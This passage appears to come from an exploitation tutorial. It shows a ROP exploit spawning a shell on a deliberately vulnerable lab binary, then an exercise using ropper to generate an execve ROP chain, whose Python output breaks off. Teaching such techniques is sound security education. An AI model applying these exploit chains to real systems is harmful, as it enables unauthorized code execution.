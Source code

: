 When we run the exploit, we get our shell.

```
ubuntu@ubuntu-xenial:/vagrant/lessons/6_bypass_nx_rop/scripts$ python 2_ropexploit.py
[+] Starting local process '../build/1_staticnx': Done
[*] Switching to interactive mode
This is a big vulnerable example!
I can print many things: deadbeef, Test String, 42
Writing to STDOUT
Reading from STDIN
$ ls -la
total 16
drwxrwxr-x 1 ubuntu ubuntu 4096 Jan 12 20:31 .
drwxrwxr-x 1 ubuntu ubuntu 4096 Jan 13  2017 ..
-rw-rw-r-- 1 ubuntu ubuntu  422 Jan 12 06:03 1_skeleton.py
-rw-rw-r-- 1 ubuntu ubuntu 1897 Jan 12 20:31 2_ropexploit.py
$
[*] Stopped program '../build/1_staticnx'
ubuntu@ubuntu-xenial:/vagrant/lessons/6_bypass_nx_rop/scripts$
```

### Exercises

#### 6.1 Using Ropper to Generate ROP Chains

There are alternative tools to ROPgadget that perform gadget searching and automatic chain generation. One such tool is ropper. You can generate an execve rop chain with the following command.

```
ubuntu@ubuntu-xenial:/vagrant/lessons/6_bypass_nx_rop/build$ ropper --file 1_staticnx --chain execve
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%

[INFO] ROPchain Generator for syscall execve:


[INFO]
write command into data section
eax 0xb
ebx address to cmd
ecx address to null
edx address to null


[INFO] Try to create chain which fills registers without delete content of previous filled registers
[*] Try permuation 1 / 24
[INFO] Look for syscall gadget

[INFO] syscall gadget found
[INFO] generating rop chain
#!/usr/bin/env python
# Generated by ropper ropchain generator #
from struct import pack

p = lambda x : pack('I', x)

IMAGE_BASE_0 = 0x08048000 # 1_staticnx
rebase_0 = lambda x : p(x + IMAGE_BASE_0)

rop = ''

rop += rebase_0(0x00073b46) # 0x080bbb46: pop eax; ret;
```